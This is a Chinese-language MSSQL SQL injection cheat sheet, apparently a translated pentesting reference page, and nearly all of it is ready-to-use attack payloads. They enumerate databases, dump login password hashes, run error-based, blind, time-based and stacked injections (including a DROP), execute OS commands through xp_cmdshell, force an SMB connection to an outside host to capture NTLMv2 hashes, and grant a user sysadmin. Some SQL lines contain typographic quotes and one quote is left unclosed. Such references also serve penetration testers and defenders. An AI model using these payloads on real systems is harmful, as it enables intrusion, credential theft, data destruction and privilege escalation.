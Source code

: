 # MSSQL 注入

## 目录

* [MSSQL注释](#MSSQL注释)
* [MYSQL版本](#MYSQL版本)
* [MSSQL数据库名](#MSSQL数据库名)
* [MSSQL列出数据库](#MSSQL列出数据库)
* [MSSQL列出列](#MSSQL列出列)
* [MSSQL列出表](#MSSQL列出表)
* [MSSQL提取用户名和密码](#MSSQL提取用户名和密码)
* [MSSQL联合查询](#MSSQL联合查询)
* [基于MSSQL报错](#基于MSSQL报错)
* [基于MSSQL盲注](#基于MSSQL盲注)
* [基于MSSQL时间注入](#基于MSSQL时间注入)
* [MSSQL堆叠注入](#MSSQL堆叠注入)
* [MSSQL命令执行](#MSSQL命令执行)
* [MSSQL UNC path](#mssql-unc-path)
* [MSSQL Make user DBA](#mssql-make-user-dba)

## MSSQL注释

```sql
-- comment goes here
/* comment goes here */
```

## MYSQL版本

```sql
SELECT @@version
```

## MSSQL数据库名

```sql
SELECT DB_NAME()
```

## MSSQL列出数据库

```sql
SELECT name FROM master..sysdatabases;
SELECT DB_NAME(N); — for N = 0, 1, 2, …
```

## MSSQL列出列

```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = ‘mytable’); — for the current DB only
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, column_name FROM information_schema.columns
```

## MSSQL列出表

```sql
SELECT name FROM master..sysobjects WHERE xtype = ‘U’; — use xtype = ‘V’ for views
SELECT name FROM someotherdb..sysobjects WHERE xtype = ‘U’;
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name=’sometable’; — list colum names and types for master..sometable

SELECT table_catalog, table_name FROM information_schema.columns
```

## MSSQL提取用户名和密码

```sql
MSSQL 2000:
SELECT name, password FROM master..sysxlogins
SELECT name, master.dbo.fn_varbintohexstr(password) FROM master..sysxlogins (Need to convert to hex to return hashes in MSSQL error message / some version of query analyzer.)

MSSQL 2005
SELECT name, password_hash FROM master.sys.sql_logins
SELECT name + ‘-’ + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
```

## MSSQL联合查询

```sql
-- extract databases names
$ SELECT name FROM master..sysdatabases
[*] Injection
[*] msdb
[*] tempdb

-- extract tables from Injection database
$ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
[*] Profiles
[*] Roles
[*] Users

-- extract columns for the table Users
$ SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Users')
[*] UserId
[*] UserName

-- Finally extract the data
$ SELECT  UserId, UserName from Users
```

## 基于MSSQL报错

```sql
For integer inputs : convert(int,@@version)
For integer inputs : cast((SELECT @@version) as int)

For string inputs   : ' + convert(int,@@version) + '
For string inputs   : ' + cast((SELECT @@version) as int) + '
```

## 基于MSSQL盲注

```sql
SELECT @@version WHERE @@version LIKE '%12.0.2000.8%'

WITH data AS (SELECT (ROW_NUMBER() OVER (ORDER BY message)) as row,* FROM log_table)
SELECT message FROM data WHERE row = 1 and message like 't%'
```

## 基于MSSQL时间注入

```sql
ProductID=1;waitfor delay '0:0:10'--
ProductID=1);waitfor delay '0:0:10'--
ProductID=1';waitfor delay '0:0:10'--
ProductID=1');waitfor delay '0:0:10'--
ProductID=1));waitfor delay '0:0:10'--

IF([INFERENCE]) WAITFOR DELAY '0:0:[SLEEPTIME]'                              comment:   --
```

## MSSQL堆叠注入

使用分号添加其他查询

```sql
ProductID=1; DROP members--
```

## MSSQL命令执行

```sql
EXEC xp_cmdshell "net user";
EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
```

如果你需要重新激活xp_cmdshell（在SQL server 2005中是默认禁用的）

```sql
EXEC sp_configure 'show advanced options',1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell',1;
RECONFIGURE;
```

与MSSQL实例进行交互

```powershell
sqsh -S 192.168.1.X -U sa -P superPassword
python mssqlclient.py WORKGROUP/Administrator:password@192.168.1X -port 46758
```

## MSSQL UNC Path

MSSQL支持堆叠查询，因此我们可以创建一个指向IP地址的变量，然后使用xp_dirtree函数来列出SMB共享中的文件并获取NTLMv2 hash。

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

## MSSQL Make user DBA (DB admin)

```sql
EXEC master.dbo.sp_addsrvrolemember 'user', 'sysadmin;
```

## References

* [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Sqlinjectionwiki - MSSQL](http://www.sqlinjectionwiki.com/categories/1/mssql-sql-injection-cheat-sheet/)
* [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)